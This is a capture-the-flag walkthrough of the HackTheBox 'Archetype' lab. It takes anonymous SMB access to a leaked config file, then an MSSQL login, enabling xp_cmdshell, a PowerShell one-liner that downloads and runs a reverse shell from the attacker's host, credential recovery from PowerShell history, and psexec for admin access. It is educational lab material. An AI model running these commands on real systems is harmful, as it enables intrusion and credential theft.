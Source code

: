 # Archetype
This is the first box of the ‘Starting Point’ path from HackTheBox (a series of 9 boxes rated Very Easy).

![Archetype](../Images/htb_archetype_1.png)

**Tools: nmap, smbclient, netcat, Impacket (mssqlclient.py and psexec.py).**

We begin with a scan using nmap (this machine’s IP is 10.10.10.27):
> nmap -n -sC -sV -Pn -T4 10.10.10.27

Or for a more complete scan:
> nmap -n -sC -sV -p- -Pn 10.10.10.27

![Archetype](../Images/htb_archetype_2.png)

The result shows a few open ports, the most promising being 445 (smb) and 1433 (sql server).  
Next up, we try to enumerate the smb with smbclient to look for shared folders:
> smbclient -L \\10.10.10.27 -N

![Archetype](../Images/htb_archetype_3.png)

There is a ‘backups’ share, and upon accessing it, we see a file called ‘prod.dtsConfig’, then we simply download it:
> smbclient -N //10.10.10.27/backups  
> dir  
>  get prod.dtsConfig  

![Archetype](../Images/htb_archetype_4.png)

Now we can read the file:
> cat prod.dtsConfig

![Archetype](../Images/htb_archetype_5.png)

This is a config file from the SQL Server, and we can see that there is a Password and an User field. We can use this to connect to the SQL Server, and for this we’ll be using the mssqlclient.py script from the Impacket toolkit. Now this is the part where I ran into some issues with this script, so I had to do the following procedure to get it to work.  

Install pip for python3:
> sudo apt install python3-venv python3-pip

Git clone impacket, better do it to at /opt to keep it organized:
> sudo git clone https://github.com/SecureAuthCorp/impacket.git

Go inside the impacket folder (cd impacket) and run:
> pip3 install .

Next, we go to the ‘examples’ folder, where the script is, and run the following command to log into the SQL Server:
> python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

We insert the password found previously and we’re in.  
Next up, we run a query to find out if we have the highest privileges:
> SELECT IS_SRVROLEMEMBER (‘sysadmin’)

The answer should be 1 (= true), confirming that we have sysadmin privileges.

![Archetype](../Images/htb_archetype_6.png)

Now we can enable the xp_cmdshell (“Spawns a Windows command shell and passes in a string for execution”) to gain Remote Command Execution (RCE):
> EXEC sp_configure ‘Show Advanced Options’, 1;  
> reconfigure;  
> sp_configure;  
> EXEC sp_configure ‘xp_cmdshell’, 1  
> reconfigure;  
> xp_cmdshell “whoami” (run commands to test, like ‘whoami’ or ‘hostname’)  

![Archetype](../Images/htb_archetype_7.png)

In order to get a ‘real’ shell, we can try a reverse shell. Below, is the powershell reverse shell that we’ll be using. You can find more reverse shells at [**RevShells.com**](https://www.revshells.com/) and customize it with your current IP address, port, and other options) — my IP was 10.10.15.29, and we’re using port 443 (keep in mind that it’s an one-liner command) - I had to take a screenshot of the code because some AVs were blocking this page (also the Revshells website), but at revshells.com select Reverse > Powershell #2 and set the IP/port:

![Archetype](../Images/htb_archetype_code.png)

We save it to a *‘revshell.ps1’* file in our VM.  
Then we set up a python http server to host the revshell file:
> python -m SimpleHTTPServer 80  
> or  
>  python3 -m http.server 80

Now we can start a netcat listening session on port 443:
> nc -vnlp 443

~ If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:
> ufw allow from 10.10.10.27 proto tcp to any port 80,443

Now in our target machine’s SQL Server, we can run the command to download our revshell file (**one-liner command**):
> xp_cmdshell “powershell “IEX (New-Object Net.WebClient).DownloadString(\”http://10.10.15.29/revshell.ps1");”

And back to our netcat…

![Archetype](../Images/htb_archetype_8.png)

We have a shell!  
The user.txt file containing the user flag is at the sql_svc user’s desktop, so we just read the file:

![Archetype](../Images/htb_archetype_9.png)

In order to get the root flag, we’ll need to, well, become root (in this ‘Windows case’, Administrator a.k.a ‘nt authority\system’). As this sql_svc account is a service account, it’s good practice to check for recently accessed files / executed commands. To do so in PowerShelll, we can insert the command below in our reverse shell (**one-liner command**):
> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![Archetype](../Images/htb_archetype_10.png)

And there it is! “Someone” mapped the *‘backups’* share using the administrator credentials.  

Next step is to use another Impacket script, psexec.py (we do so in our VM’s terminal, so we go back to the /opt/impacket/examples folder):
> python3 psexec.py administrator@10.10.10.27

We simply provide the password when asked, and do a quick whoami check:

![Archetype](../Images/htb_archetype_11.png)

Now we just need to read the root.txt file at the administrator’s desktop:

![Archetype](../Images/htb_archetype_12.png)

![Archetype](../Images/htb_archetype_13.png)

**That’s all for now!**  
We’ll keep in mind that some of the info collected (like credentials, folders…) can be useful in the next 8 labs of the ‘Starting Point’ path.  
Thanks for reading and keep hacking!  

**Some useful resources to understand the procedures used to root this box:**  

mssqlclient.py troubleshoot  
* https://forum.hackthebox.eu/discussion/3034/starting-point-foothold-mssqlclient-py  

IS_SRVROLEMEMBER (‘sysadmin’)  
* https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?redirectedfrom=MSDN&view=sql-server-ver15  

xp_cmdshell  
* https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15  
* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server  
* https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/  
* https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
